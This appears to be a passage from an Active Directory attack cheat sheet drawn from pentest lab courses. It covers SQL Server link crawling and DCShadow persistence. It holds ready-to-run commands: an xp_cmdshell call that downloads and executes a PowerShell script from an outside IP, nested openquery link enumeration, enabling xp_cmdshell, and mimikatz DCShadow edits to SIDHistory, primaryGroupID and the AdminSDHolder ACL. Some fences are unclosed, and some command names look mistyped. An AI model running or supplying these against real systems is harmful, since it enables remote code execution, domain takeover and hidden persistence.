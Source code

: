   ```powershell
  - Gain Remote Shell using xp_cmdshell via DB Links
  
    ```powershell
    Get-SqlServerLinkCrawl -Instance DCORP-MSSQL -Query 'EXEC xp_cmdshell "powershell.exe -c iex (new-object net.webclient).downloadstring(''http://172.16.100.79/dakiya.ps1'')"' | select instance,links,customquery | ft
    ```

  - Enumerating DB Links manually 

    ```sql
    select * from master.. sysservers;
    select * from openquery ("dcorp-sql1",'select * from master.. sysservers');
    select * from openquery ("dcorp-sql1",'select * from openquery ("dcorp-sql2",''select * from master..sysservers'')');
    select * from openquery ("dcorp-sql1",'select * from openquery ("dcorp-sql2",''select * from openquery ("pcorp-sql3.organicsecurity.local",''''select * from master.. sysservers'''')'')');
    select * from openquery ("dcorp-sql1",'select * from openquery ("dcorp-sql2",''select * from openquery ("pcorp-sql3.organicsecurity.local",''''select @@version'''')'')');
    ```

  - Command to enable xp_cmdshell if not enabled:

    ```sql
    EXECUTE sp_configure 'xp_cmdshell', 1; 
    ```

# DC shadow

  - Update Description, SIDHistory and GroupID 
	
    ```powershell
    lsadump::dcshadow /object:root01 /attribute:Description /value="Hello from DCShadow"
    
    lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-5-21-280534878-1496970234-700767426-519
    
    lsadump-dcshadow /object:student1 /attribute:primaryGroupID /value:519

    lsadump::dcshadow /push
	
  - Modify ntSecurityDescriptor for AdminSDHolder to add full control to current user
	
    ```powershell
    (New-Object System.DirectoryServices.DirectoryEntry (("LDAP://CN=Admin 
    SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl
	
    lsadump-dcshadow /object:CN=AdminSDHolder,CN=System,DC=organicsecurity,DC=local /attribute:ntSecurityDescriptor /value:<modified ACL>
	
  - Alternatively, we can use Set-DCShadowPermissions from Nishang
	
    ```powershell
	  Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose

  
# References

- https://www.pentesteracademy.com/activedirectorylab
- https://www.alteredsecurity.com/adlab
- https://adsecurity.org/?p=2288
- https://adsecurity.org/?page_id=1821
  ```